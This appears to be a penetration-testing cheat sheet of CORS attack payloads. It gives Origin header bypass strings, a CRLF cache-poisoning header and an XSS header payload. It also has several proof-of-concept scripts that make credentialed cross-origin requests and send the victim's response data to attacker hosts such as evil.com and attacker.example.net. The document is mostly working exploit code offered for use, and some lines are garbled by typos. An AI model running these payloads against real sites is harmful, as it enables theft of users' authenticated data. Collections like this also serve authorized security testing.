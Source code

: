 
# **CORS PAYLOADS**

    Origin: https://evil.com
    Origin: null
    Origin: https://evilexample.com
    Origin: https://evilexample.com
    Origin:null
    Origin:attacker.com
    Origin:attacker.target.com
    Origin:attackertarget.com
    Origin:sub.attackertarget.com
    Origin:attacker.com      and then change the method Get to post/Post to Get
    Origin:sub.attacker target.com
    Origin:sub.attacker%target.com
    Origin:attacker.com/target.com
    Origin:expected-host.com.attacker.com
    Origin:expected-host.computer
    Origin:foo@evil-host:80@expected-host
    Origin:foo@evil-host%20@expected-host
    Origin:evil-host%09expected-host
    Origin:127.1.1.1:80\@127.2.2.2:80
    Origin:127.1.1.1:80:\@@127.2.2.2:80
    Origin:127.1.1.1:80#\@127.2.2.2:80
    Origin:ß.evil-host



**Server-side cache poisoning:**

    Origin: z[0x0d]Content-Type: text/html; charset=UTF-7
    Access-Control-Allow-Origin: z
    Content-Type: text/html; charset=UTF-7

**Custom-http-header:** 

    user-id: <svg/onload=alert(1)>

## **Exploit:**


    <html>
	    <body>
             <h2>CORS PoC</h2>
             <div id="demo">
                 <button type="button"	onclick="cors()">Exploit</button>
             </div>
             <script>
                 function cors() {
                 var xhr = new XMLHttpRequest();
                 xhr.onreadystatechange = function() {
                     if (this.readyState == 4 && this.status == 200) {
                     document.getElementById("demo").innerHTML = alert(this.responseText);
                     }
                 };
                  xhr.open("GET",
                           "https://victim.example.com/endpoint", true);
                 xhr.withCredentials = true;
                 xhr.send();
                 }
             </script>
         </body>
     </html>
	
	     
	#1
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://exaple.com/sens_data',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	   location='127.0.0.1='+this.responseText;
	};
	
	
	
	#3
	<script>
	    document.location="http://subdomain.exaple.com/?xss=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://exaple.com/sens_point',true); req.withCredentials = true;req.send();function reqListener() {location='https:/evil.com/listener?q='%2bthis.responseText; };%3c/script>"
	</script>
	     

 
**Null Origin:**
 
 

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://victim.example.com/endpoint',true);
      req.withCredentials = true;
      req.send();
    
      function reqListener() {
        location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
       };
    </script>"></iframe> 


**exploit whith xss :** 

    https://subdomain.vulnerable-website.com/?xss="><script>cors-stuff-here</script>

